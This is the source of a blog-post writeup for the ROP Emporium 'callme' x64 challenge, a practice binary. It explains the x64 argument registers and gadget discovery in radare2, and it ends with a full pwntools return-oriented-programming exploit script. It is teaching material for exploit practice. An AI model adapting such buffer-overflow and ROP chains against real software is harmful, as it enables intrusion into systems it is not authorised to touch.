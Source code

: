 ```yaml
---
layout: post
title:  "ROP Emporium callme Writeup (x64)"
date:   2024-06-02 00:00:00 -0400
categories: rop-emporium callme
tags: rop-emporium callme x64 writeup buffer-overflow rop reverse-engineering 64-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[third challenge](https://ropemporium.com/challenge/callme.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/callme.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call the functions `callme_one()`,
`callme_two()`, and `callme_three()` in that order with
the arguments `0xdeadbeefdeadbeef`, 
`0xcafebabecafebabe`, and `0xd00df00dd00df00d`.

We should essentially be running
```c
callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d);
callme_two(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d);
callme_three(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d);
```

### x64 Calling Convention
We know from the first challenge we need to set the
instruction pointer to a function address in order to
call that function. But how do we pass arguments to
those functions?

In `x64` arguments are passed through specific registers.
The first three arguments correspond to the `rdi`, `rsi`,
and `rdx` registers respectively. 
[This x64 cheat sheet](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf){:target="_blank"}{:rel="noopener noreferrer"}
can help if you want to learn more about `x64`.

## Exploit Crafting
The offset for `x64` challenges will be `40 bytes`. If
you want to know how to get this value see the
[ret2win writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

### Function Address
> What are the plt addresses of the functions?
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![func-addr](/images/callme/x64-addr.png)

The function addresses we need are
```
callme_one: 0x00400720
callme_two: 0x00400740
callme_three: 0x004006f0
```

Why are we using the `plt` entries for the functions
rather than the calls in `usefulFunction`? When
a `call` instruction is executed, it'll execute the
function while also placing the return address onto
the stack! So once `callme_one()` is finished it
will continue to execute instructions in `usefulFunction`

![call-problem](/images/callme/x64-call-problem.png)

So after we finish `callme_one()`, the program
will exit!


### Adding Arguments
> Is there a gadget which sets the argument registers?
{: .prompt-tip }
Let's take a look at `usefulFunction` in `radare2`
```
s sym.usefulFunction
V
p
```

![useful-asm](/images/callme/x64-useful-asm.png)

There's a helpful section called `usefulGadgets` with,
who would've thought, a useful gadget! It sets the 
first three `x64` argument registers from the stack,
which we already control! The address of this
gadget is `0x0040093c`

## Exploit
Now we have everything we need to build the exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
call1_addr = 0x00400720
call2_addr = 0x00400740
call3_addr = 0x004006f0
pop_regs_addr = 0x0040093c

# put args into corresponding registers
def set_args(args):
    payload = p64(pop_regs_addr)
    for a in args:
        payload += p64(a)
    return payload

# create payload
payload = b'A' * 40

# callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
args = [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d]
payload += set_args(args)
payload += p64(call1_addr)

# callme_two
payload += set_args(args)
payload += p64(call2_addr)

# callme_three
payload += set_args(args)
payload += p64(call3_addr)

# send payload + receive flag
io = process('./callme')
io.sendline(payload)
io.recvuntil(b'callme_two() called correctly\n')
flag = io.recvline()
log.success(flag)
```
![flag](/images/callme/x64-flag.png)

## Conclusion
This challenge reinforces the the concept of passing
multiple arguments in `x64`, as well as finding
and chaining gadgets together.

[Previous Challenge (split)]({% post_url 2024-06-01-rop-emporium-split-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

Next Challenge (write4)

[callme x86]({% post_url 2024-06-02-rop-emporium-callme-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}
